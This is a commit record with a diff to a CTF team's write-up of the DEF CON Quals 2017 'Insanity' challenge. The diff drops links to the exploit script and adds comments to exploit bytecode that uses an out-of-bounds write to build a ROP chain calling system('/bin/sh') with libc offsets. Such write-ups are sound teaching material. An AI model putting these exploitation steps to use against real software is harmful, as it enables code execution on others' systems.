

Before and after one commit to kitctf/www, a Jekyll site: the page built from _posts/2017-05-01-insanity.md, in a window 1280 px wide and 1400 px high, scrolled down 7086 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Small changes to writeup

```diff
--- a/_posts/2017-05-01-insanity.md
+++ b/_posts/2017-05-01-insanity.md
@@ -318,7 +318,7 @@ Converts the lower byte of the value at SP into a newly allocated string and pus
 This pushes `opcode - 10` onto the stack. I.e. the opcode 14 would push the value 4 onto the stack.
 
 
-Since we are somewhat limited in the values we can write to the initial stack, we have to generate large integer values ourselves. The following [python code](https://github.com/kitctf/writeups/blob/master/defconquals2017/insanity/pwn.py#L80) implements this:
+Since we are somewhat limited in the values we can write to the initial stack, we have to generate large integer values ourselves. The following python code implements this:
 
 {% highlight python %}
     def calc(v):
@@ -342,17 +342,17 @@ The binary is compiles as PIE, as such, we require an information leak first. Th
     push(1)         # The conditional for the jmp, must be != 0
     jmp()
 
-We can now write arbitrary bytecode. The final steps are fairly straightforward: We assemble a very short ROP chain on the stack that will load a pointer to the string "/bin/sh" (found in the libc) into rdi, then jump to system(). [Implemented in "Insanity"](https://github.com/kitctf/writeups/blob/master/defconquals2017/insanity/pwn.py#L125), this looks as follows:
+We can now write arbitrary bytecode. The final steps are fairly straightforward: We assemble a very short ROP chain on the stack that will load a pointer to the string "/bin/sh" (found in the libc) into rdi, then jump to system(). Implemented in "Insanity", this looks as follows:
 
-    push(33779)
-    load(0)
-    # Add offset
+    push(33779)     # Push offset to return address from memory buffer onto the stack
+    load(0)         # Load return address onto the stack.
+                    # '0' selects the string at offset 0 in the virtual memory, which points to itself
     push(offset_system - offset___libc_start_main_ret)
-    add()
-    # Store new address inside ROP chain
-    push(33781)
-    store()
+    add()           # Add offset to leaked libc address
+    push(33781)     # Push new offset, 2 qwords behind return address
+    store()         # Trigger out-of-bounds write
 
+                    # Repeat ...
     push(33779)
     load(0)
     push(offset_str_bin_sh - offset___libc_start_main_ret)
```
Also changed, not shown: other parts of _posts/2017-05-01-insanity.md (+2 -3 lines).
